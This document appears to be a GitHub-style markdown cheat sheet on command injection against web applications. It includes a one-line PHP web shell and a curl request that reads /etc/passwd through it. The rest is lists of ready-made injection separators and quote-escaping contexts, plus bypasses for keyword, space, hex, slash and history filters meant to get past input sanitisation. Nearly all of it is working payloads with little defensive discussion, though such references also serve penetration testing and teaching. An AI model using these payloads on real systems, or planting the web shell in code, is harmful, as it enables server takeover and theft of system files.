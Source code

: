 # Command injection

Abuse of functionality in web applications, where it is possible to inject arbitrary commands and takeover entire server.
Vulnerability often happens while using 'dangerous' functions that have ability to execute commands like PHP's system, shell_exec, passthru, exec. 

Remember to URL encode HTTP parameters.  

```php
<?php system($_GET['cmd']); ?>
```
`curl http://server/site.php?cmd=cat%20/etc/passwd`  

### Injection sequences
`;whoami;`  
`&whoami`  
`&&whoami`  
`|whoami`   
`||whoami`  
`%0awhoami`  

Unix-only  
`` ;`whoami`; ``  
`;$(whoami);`  

### Contexts
Depending on vulnerable functionality, escaping the code in order to inject commnands might be necessary.  
`';whoami`  
`');whoami`   
`");whoami`  
...  

### Keyword bypass
Different way of specifying 'whoami' command. These could bypass sanitisations.  
`/usr/bin/wh?ami`  
`/usr/bin/who*mi`  
`/usr/bin/whoam[i]`  
`'w'h'o'a'm'i`  
`"w"h"o"a"m"i`  
`\w\h\o\a\m\i`  
`who''ami`  
`who""ami`   
`` w`u`h`u`o`u`a`u`m`u`i ``  
`w$(u)h$(u)o$(u)a$(u)m$(u)i`  

### Space bypass
For linux web servers, instead of space, sequences like '$(IFS%%?)' or '\t' could be used.   
`CAT${IFS}/etc/passwd`  
`cat${IFS%??}/etc/passwd`    
`cat\t/etc/passwd`  
`{cat,/etc/passwd}`   
`X=$'cat\x20/etc/passwd'&&$X`  
`IFS=];a=cat]/etc/passwd;$a`  

With undefined variable combined with historic command reference.  
`$undefined $undefined`  
`cat!-1/etc/passwd`  

### Hex encoding bypasses
All of these execute 'cat /etc/passwd'.  
`` cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"` ``  
`` `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'` ``  
`a=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $a`  
`` cat `xxd -r -p <<< 2f6574632f706173737764` ``  
`` cat `xxd -r -ps <(echo 2f6574632f706173737764)` ``

### Slash and Backslash bypass
`cat ${PWD:0:1}etc${PWD:0:1}passwd`  
`cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd`   

### Misc execution tricks
Through '$0' sequence.  
`echo whoami|$0`  

Through historic commands. '!!' and '!-1' equals to last command executed, '!-2', second to last, etc..  
`ami`    
`who`  
`!-1!-2`
